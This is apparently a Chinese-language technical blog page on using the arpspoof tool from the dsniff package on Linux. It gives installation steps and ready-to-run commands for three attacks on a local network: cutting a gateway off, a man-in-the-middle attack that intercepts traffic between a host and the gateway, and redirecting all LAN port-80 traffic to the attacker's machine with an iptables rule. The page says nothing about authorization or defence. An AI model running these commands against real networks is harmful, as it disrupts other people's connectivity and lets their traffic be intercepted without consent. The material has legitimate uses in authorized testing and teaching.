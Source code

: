 ```yaml
---
title: Arp 攻击
slug: arpspoof
description: 在 Linux 系统上使用 arpspoof 工具进行 ARP 攻击。本文介绍 dsniff 软件包的安装，arpspoof 的基本用法，以及如何实现断网攻击、中间人攻击（截获局域网流量）和流量重定向等网络安全测试场景。
keywords: [arpspoof, 网络安全]
authors: cxOrz
tags: [tech, linux]
---
```



## 安装

arpspoof 是 dsniff 包里的一个程序，可用于arp攻击。Manjaro 中执行以下命令安装这个软件包就可以使用了。

``` bash
yay -S dsniff
```

## 介绍

arpspoof - 截获交换局域网中的数据包。

```
用法
      arpspoof [-i interface] [-c own|host|both] [-t target] [-r] host

描述
      arpspoof通过伪造的ARP响应包改变局域网中从目标主机（或所有主机）到另一个主机（host）的数据包转发路径。这是交换局域网中嗅探网络流量的一种极为有效的方法。
      内核IP转发（或如fragrouter这样的、用户层面的、能完成同样功能的软件）必须提前开启。
```

## 使用情景

1.&nbsp;断网攻击，不开启流量转发，使用我的无线网卡 `wlp8s0`，攻击网关
```bash
sudo arpspoof -i wlp8s0 -t 192.168.1.1
```
2.&nbsp;中间人攻击，截获用户和网关之间的流量

开启流量转发
```bash
echo 1 >> /proc/sys/net/ipv4/ip_forward
```
欺骗双方，充当中间人
```bash
sudo arpspoof -i wlp8s0 -t 192.168.1.1 192.168.1.106
sudo arpspoof -i wlp8s0 -t 192.168.1.106 192.168.1.1
```

此时网关以为我是106，而106以为我是网关。双方的流量都将经过这里，使用 WireShark 即可对经过网卡的流量进行分析。

3.&nbsp;重定向攻击

使局域网所有设备访问的 80 端口，重定向到我这里的 8080 端口，需要开启流量转发。
```bash
sudo arpspoof -i wlp8s0 192.168.1.1
```
```bash
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
```